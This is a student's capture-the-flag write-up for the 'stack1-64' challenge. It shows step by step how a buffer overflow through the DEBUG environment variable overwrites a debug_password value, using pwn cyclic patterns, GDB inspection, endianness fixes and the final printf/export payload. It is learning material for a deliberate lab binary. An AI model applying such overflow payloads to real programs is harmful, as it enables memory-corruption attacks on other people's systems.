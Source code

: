# stack1-64

file in dir:
`/problems/stack1r-64_6_f8971f22ac04a7dad46dfe8bde78b565`

## Steps

> [!note] Code in ./stack1.c
> Using ENV to overwrite debug_password and get debug value from file

1) exploiting an enviornment var
- `generator_mode = getenv("DEBUG")`
- thus, we need to set the DEBUG env variable as some sort of patterened text to figure out exactly where it is overflowing
  - export DEBUG=`pwn cyclic -n4 256`
- echo $DEBUG

`aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac`

1) inital GDB

- `gdb stack1-64`
- `b main`
- `r`
- next instruction until the buffer is coppied into a new variable with strcpy
- `p &debug_password`
  - `0x7fffffffe32c`
  - `x/s 0x7fffffffe32c`
    - **caab**
  - find the above string in the dump

> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaab**caab**daabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac

2) What is the new exploit string

- replace `caab` with `0x0d0a0d0a` (what the debug pswd is set to in code)

### What is 0x0d0a0d0a

`0x0D0A0D0A` is a hexadecimal representation of a sequence of bytes. Breaking it down:

- unhex 0x0d0a0d0a prints 2 blank lines
- 0D (hex) = 13 (decimal) = \r (carriage return, CR)
- 0A (hex) = 10 (decimal) = \n (line feed, LF)
- so, at `caab`, we need `\r\n\r\n`



3) add new exploit string to env

- export DEBUG=$(printf "<string>") 
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaab\r\n\r\n
- to test, we can run `echo "$DEBUG" | cat -A`
- this should print:
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaab^M\$^M$
> 
> ^M is \r and $ is \n

### echoing into a pipe to hex:

` echo $DEBUG | hex`
>...7a61616262616162  0d200d0a
why is the ending not 0x0d0a0d0a
- 0D (hex) = 13 (decimal) = \r (carriage return, CR)
- 20 (hex) = 32 (decimal) = Space (" ")
- 0D (hex) = 13 (decimal) = \r (carriage return, CR)
- 0A (hex) = 10 (decimal) = \n (line feed, LF)

*I must try a different approach*

4) new input method

` 
printf -v DEBUG "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaab\r\n\r\n"
export DEBUG
`
- This did not work due to the memory being reversed - the actual exploit string was the same but with \n\r\n\r at the end.

verify above by checking:
`echo -n "$DEBUG" | od -tx1`

```
0000000 61 61 61 61 62 61 61 61 63 61 61 61 64 61 61 61
0000020 65 61 61 61 66 61 61 61 67 61 61 61 68 61 61 61
0000040 69 61 61 61 6a 61 61 61 6b 61 61 61 6c 61 61 61
0000060 6d 61 61 61 6e 61 61 61 6f 61 61 61 70 61 61 61
0000100 71 61 61 61 72 61 61 61 73 61 61 61 74 61 61 61
0000120 75 61 61 61 76 61 61 61 77 61 61 61 78 61 61 61
0000140 79 61 61 61 7a 61 61 62 62 61 61 62 0a 0d 0a 0d
0000160 
```

Now, once ran - the flag was provided!